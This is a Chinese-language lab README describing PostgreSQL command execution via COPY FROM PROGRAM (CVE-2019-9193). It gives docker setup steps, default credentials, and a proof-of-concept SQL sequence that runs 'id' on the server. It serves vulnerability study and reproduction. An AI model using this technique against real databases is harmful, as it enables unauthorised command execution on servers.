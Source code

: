 # PostgreSQL 高权限命令执行漏洞（CVE-2019-9193）

PostgreSQL 是一款关系型数据库。其9.3到11版本中存在一处“特性”，管理员或具有“COPY TO/FROM PROGRAM”权限的用户，可以使用这个特性执行任意命令。

参考链接：

- https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5

## 漏洞环境

启动存在漏洞的环境：

```
docker compose up -d
```

环境启动后，将开启Postgres默认的5432端口，默认账号密码为postgres/postgres。

## 漏洞复现

首先连接到postgres中，并执行参考链接中的POC：

```sql
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
```

`FROM PROGRAM`语句将执行命令id并将结果保存在cmd_exec表中：

![](1.png)
